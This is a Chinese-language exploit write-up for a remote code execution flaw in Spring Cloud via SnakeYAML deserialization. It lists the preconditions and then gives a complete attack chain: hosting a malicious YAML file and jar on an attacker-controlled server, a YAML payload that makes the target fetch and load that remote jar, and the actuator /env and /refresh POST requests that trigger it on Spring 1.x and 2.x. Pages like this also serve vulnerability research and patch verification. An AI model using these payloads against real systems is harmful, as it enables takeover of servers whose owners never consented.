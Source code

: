 Spring Cloud SnakeYAML RCE
==========================

一、漏洞简介
------------

#### 利用条件：

-   可以 POST 请求目标网站的 `/env` 接口设置属性
-   可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在
    `spring-boot-starter-actuator` 依赖）
-   目标依赖的 `spring-cloud-starter` 版本 \< 1.3.0.RELEASE
-   目标可以请求攻击者的 HTTP 服务器（请求可出外网）

二、漏洞影响
------------

三、复现过程
------------

#### 漏洞分析：

1.  spring.cloud.bootstrap.location 属性被设置为外部恶意 yml 文件 URL
    地址
2.  refresh 触发目标机器请求远程 HTTP 服务器上的 yml 文件，获得其内容
3.  SnakeYAML 由于存在反序列化漏洞，所以解析恶意 yml
    内容时会完成指定的动作
4.  先是触发 java.net.URL 去拉取远程 HTTP 服务器上的恶意 jar 文件
5.  然后是寻找 jar 文件中实现 javax.script.ScriptEngineFactory
    接口的类并实例化
6.  实例化类时执行恶意代码，造成 RCE 漏洞

### 漏洞复现

##### 步骤一： 托管 yml 和 jar 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP
服务端口（80、443）

    # 使用 python 快速开启 http server

    python2 -m SimpleHTTPServer 80
    python3 -m http.server 80

在网站根目录下放置后缀为 `yml` 的文件 `example.yml`，内容如下：

    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://your-vps-ip/example.jar"]
      ]]
    ]

在网站根目录下放置后缀为 `jar` 的文件
`example.jar`，内容是要执行的代码，代码编写及编译方式参考 yaml-payload

    https://github.com/artsploit/yaml-payload

##### 步骤二： 设置 spring.cloud.bootstrap.location 属性

spring 1.x

    POST /env
    Content-Type: application/x-www-form-urlencoded

    spring.cloud.bootstrap.location=http://your-vps-ip/example.yml

spring 2.x

    POST /actuator/env
    Content-Type: application/json

    {"name":"spring.cloud.bootstrap.location","value":"http://your-vps-ip/example.yml"}

##### 步骤三： 刷新配置

spring 1.x

    POST /refresh
    Content-Type: application/x-www-form-urlencoded

spring 2.x

    POST /actuator/refresh
    Content-Type: application/json
